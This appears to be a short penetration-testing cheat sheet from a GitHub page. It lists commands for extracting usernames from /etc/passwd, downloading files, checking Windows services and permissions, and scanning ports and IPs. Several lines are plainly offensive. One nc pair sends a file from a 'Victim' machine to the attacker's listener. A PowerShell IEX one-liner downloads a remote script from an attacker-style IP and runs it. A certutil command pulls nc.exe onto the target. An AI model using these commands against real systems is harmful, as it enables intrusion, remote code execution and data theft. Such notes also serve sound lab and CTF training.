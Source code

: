 ![image](https://user-images.githubusercontent.com/68326057/118384023-9df1a480-b620-11eb-812f-4104c1d11d65.png)


# Cut

To grep Only Usernames:-

```bash
cat /etc/passwd | grep bash | cut -d ":" -f 1
```

# To Download FILEs


## CURL
```bash
curl -O url
```

## WGET
```bash
wget url -o output
```

## axel
```bash
axel -a -n 20 -o output url
```

## nc

```bash
My machine 
sudo nc -l -p 999 > file

On Victim
nc.exe -w 5 MYIP 999 < file
```

## Powershell

```bash
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/ipw.ps1')"  // directly execute command
```

## certutil

```bash
certutil -urlcache -f http://10.9.53.25:8000/nc.exe nc.exe
```

# Windows 

## Windows Services

To find:-

```bash
wmic service get name,startname,pathname | findstr /v C:\Windows
```

## icacls

```bash
USE:- icacls filename

F - Full access
M- Modify access
RX - Read and execute access
R - Read-only access
W - Write-only access

(OI) - Object inherit
(CI) - Container inherit
(IO) - Inherit only
(NP) - Do not propagate inherit
```

# Netwrok Scanning


## PORT Scanning

```bash
for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done
```

## IP Scanning

```bash
for i in {1..255};do (ping -c 1 x.x.x.${i} | grep "bytes from" &);done
```

